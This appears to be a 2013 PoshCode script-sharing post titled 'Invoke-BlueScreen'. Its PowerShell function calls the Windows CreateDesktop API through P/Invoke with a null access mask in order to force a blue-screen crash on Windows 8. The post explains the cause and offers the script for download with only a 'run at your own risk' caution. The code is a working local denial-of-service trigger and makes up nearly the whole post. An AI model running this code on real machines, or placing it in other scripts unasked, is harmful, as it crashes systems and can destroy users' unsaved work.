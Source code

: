 ﻿---
pid:            4216
poster:         adamdriscoll
title:          Invoke-BlueScreen
date:           2013-06-24 00:34:41
format:         posh
parent:         0
parent:         0

---

# Invoke-BlueScreen

### [download](4216.ps1)

Causes a blue screen on Windows 8 machines. Run at your own risk!! The reason is due to an access violation caused by passing in a null value to the access mask of the CreateDesktop function. 

```posh
function Invoke-BlueScreen
{
    Add-Type "
      using System;
      using System.Runtime.InteropServices;
      public class PInvoke
      {
          [DllImport(`"user32.dll`")]
          public static extern IntPtr CreateDesktop(string desktopName, IntPtr device, IntPtr deviceMode, int flags, long accessMask, IntPtr attributes);
      }
    "

    [PInvoke]::CreateDesktop("BSOD", [IntPtr]::Zero, [IntPtr]::Zero, 0, $null, [IntPtr]::Zero)
}
```
